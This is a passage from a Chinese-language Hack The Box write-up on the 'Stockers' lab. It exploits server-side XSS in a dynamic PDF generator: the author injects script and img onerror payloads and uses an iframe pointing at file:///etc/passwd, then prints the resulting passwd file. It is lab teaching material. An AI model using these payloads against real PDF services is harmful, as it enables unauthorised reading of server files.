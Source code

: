 谷歌一下 `Skia/PDF m108`，发现有[hacktricks](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf)关于动态PDF的利用。

另外还能找到这两篇文章学习一下：  
> <https://www.triskelelabs.com/microstrategy-ssrf-through-pdf-generator-cve-2020-24815>  
> <https://www.triskelelabs.com/blog/extracting-your-aws-access-keys-through-a-pdf-file>

```html
<script>document.write(JSON.stringify(window.location))</script>
```

将上面的payload放到Item的值，注入有效：  
![HTB-Stockers-pdf](./../evidence-img/HTB-Stockers-pdf.png)

*一开始尝试 `<img src="x" onerror="document.write('test')" />` 不行，还想着估计有双引号的payload都不行。后来试了下只要把双引号转义一下就行：`<img src=\"x\" onerror=\"document.write('test')\" />`*

再看看hacktricks里面有什么利用方式。

- 既然双引号不是问题了，那先试试[这里的第一个payload](https://book.hacktricks.xyz/pentesting-web/xss-cross-site-scripting/server-side-xss-dynamic-pdf#read-local-file)获取 /etc/passwd。不过结果是订单文件显示了一行一长串的字符，似乎还因为太长了一行还显示不全……
- `<iframe src=file:///etc/passwd></iframe>` 这个payload倒是可以正常显示，不过只显示了前面几行。尝试更改一下iframe的大小 `<iframe src=file:///etc/passwd width='1000' height='1000'></iframe>`，获得了服务器的用户列表：

        root:x:0:0:root:/root:/bin/bash
        daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
        bin:x:2:2:bin:/bin:/usr/sbin/nologin
        sys:x:3:3:sys:/dev:/usr/sbin/nologin
        sync:x:4:65534:sync:/bin:/bin/sync
        games:x:5:60:games:/usr/games:/usr/sbin/nologin
        man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
        lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
        mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
        news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
        uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
        proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
        www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
        backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
        list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
        irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
        gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
        nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
        systemd-network:x:100:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
        systemd-resolve:x:101:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
        systemd-timesync:x:102:104:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
        messagebus:x:103:106::/nonexistent:/usr/sbin/nologin
        syslog:x:104:110::/home/syslog:/usr/sbin/nologin